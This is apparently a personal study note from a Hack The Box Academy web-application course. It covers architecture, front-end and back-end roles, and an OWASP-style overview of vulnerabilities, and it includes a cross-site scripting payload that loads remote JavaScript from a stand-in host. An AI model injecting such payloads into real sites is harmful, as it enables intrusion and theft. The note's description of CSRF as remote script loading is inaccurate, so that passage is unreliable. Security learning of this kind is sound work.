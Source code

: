 # Introduction to web applications
#HTB #academy #web #webapplication

## Introduction 

[[Web Application]] are web 2.0 which is run in the browser using [[HTTP]] / [[HTTPS]], that adopt to the user input, in most cases a web application consists of three parts the front-end which is run on the user browser, back-end that is hosted on a web server and [[Database]] which hold the information. 

The difference between web 1.0 and 2.0 is the fact that 1.0 present static pages, which are only edited by the web master, where 2.0 adopt to the user, e.g. when you login to a portal information that presented is specific to you. 

The big advantages of web application is nothing is required to be installed on the client and when updates is pushed out it affect everyone, no need to thing about version as everyone will be using the same. The big problem with web application is that everyone have access to the site. Leaving it open for attacks. 

[[OWASP]] have a list of recommendation of testing, but also a list of the most common vulnerabilities for web application. 

## Attacks 
| Atttack                  | Description                                                                          |     |
| ------------------------ | ------------------------------------------------------------------------------------ |
| SQL injection            | Sending data through a input field that is connect to a database to get information. |     |
| File inclusion           | Reading files the user is not suppose to such a config files.                        |     |
| Unrestricted file upload | Allowing user to upload file, without validation file type.                          |     |
| Broken access control    | privilege escalate on the web application to get admin right.                        |     |

## Architecture
Web application architecture have three components. Frontend, backend and database 
The frontend is what the user sees and interact with, backend process the input from the frontend. and database storage the information for persistence. The backend and frontend can be on the same server, or it can be mulitple server hosting the backend or database part. depending on the design of the web application. 

| Layer              | Description                      |
| ------------------ | -------------------------------- |
| Presentation layer | What the user sees               |
| Application layer  | the backend logic                |
| Data layer         | Where the information is stored. |


![[Pasted image 20210531145807.png]]

### Microservice
Is a Web application architecture design where the goal is to split up the deference services in to independent services.  Each service is stateless and does not know the state of the other service, which is why a message broker is used to communicate between the services. Where each service have it own database storage. To separate each service. 


### Serverless 
Serverless architecture is provided by the big cloud provider, where developer no longer need to think about the server. The web application is run on [[Container]] / [[Docker]]. 


## Front-end vs Back-end 
Front-end vs Back-end describe the relation between what the browser handles and what the server takes care off. and full stack is everything from front and back. 

### Front-end 
Is everything the browser interact with. [[HTML]], [[CSS]] and [[Javascript]]. these element then get presentment by the web browser. 

#### HTML 
[[HTML]] is the front-end of web application it contains the text and images and form elements. 

#### CSS 
Cascading style sheets is a stylesheet is used together with HTML to format the design of the html elements. 
There exists the framework for optimizing the development of CSS design. Bootstrap, SASS. 


#### Javascript 
[[Javascript]] is code which is executed by the browser. usage of javascript is to handle user input and make AJAX request to web server for resources. but also update the web page in real time. 

### Back-end 
Is everything from the web server, web application and the database. 
common web server include iis, apache. web application also known as development frameworks is the code php, python, .net. And last [[Database]] can be anything form relative database like [[MSSQL]], [[MYSQL]] or no-relative database [[No-SQL]] or [[MongoDB]]. These component can be on the same server or be separated into small containers. 

#### API
Application programmering interface is a way of interacting with the back-end server. It commonly used when the front-end need to make a request to the back-end API are used. But it can also be used by directly to make request to the server, e.g of this is twitter API which allows you to retrieve tweet from users. 
The return data can come in many format, a common one is JSON format. another options is SOAP 

## Security 
Security in web application is often put to the right or not part of the agenda at all because of the speed business require new code to be pushed out. which is why [[OWASP]] have create a top 10 list of the most common vulnerabilities they see. 

### Sensitive data exposure 
All front-end data is sent to the user, in some cases information can be added to the code of the web application which is not suppose to be available . e.g. 
```html
<form action="action_page.php" method="post">

    <div class="container">
        <label for="uname"><b>Username</b></label>
        <input type="text" required>

        <label for="psw"><b>Password</b></label>
        <input type="password" required>

        <!-- TODO: remove test credentials test:test -->

        <button type="submit">Login</button>
    </div>
</form>

</html>
```

Here is an example of a developer created a TODO inside the code which any visiting the site can view. 

### HTML Injection / Cross-site scripting
[[Cross site scripting]]
When input field are not sanitizes allows a hacker to inject HTML or javascript code into the website. it the same vulnerability of not validating user input.  
 
Cross-site request forgery (CSRF) is in the same category as the two above, but instead of injecting javascript directly, Cross-site will instead reference javascript that located on a other server. e.g.

```html
"><script src=//www.example.com/exploit.js></script>
```
Here the browser will load the exploit.js code and execute it. 


### Broken authentication/Access control 
Happens when bad authentication is implemented, either allowing the hacker to bypass the login entirely or privilege escalate from user to admin. 

### Malicious File upload 
Is when file upload to the webserver is not validated, allows us to upload script to the webserver which will execute server-side code on the machine. 

### Command injection 
Some web application execute OS commands to perform processes, if the input is not properly filtered this could lead to command injection and allow a hacker to execute their own code on the web server. 


### SQLI 
[[SQL injection]] is very similar to command injection but instead for execute the code directly on the OS, it execute inside the database which also could lead to OS execution, with [[MSSQL]] xp_cmdshell

## Public CVE 
[[CVE]] are vulnabilities that is publicly disclosed, the first step is to identify the version of the application and then search for public exploit  like [Exploit DB](https://www.exploit-db.com/), [Rapid7 DB](https://www.rapid7.com/db/), or [Vulnerability Lab](https://www.vulnerability-lab.com/).

### CVSS
Is a public way for scoring vulnerabilities. 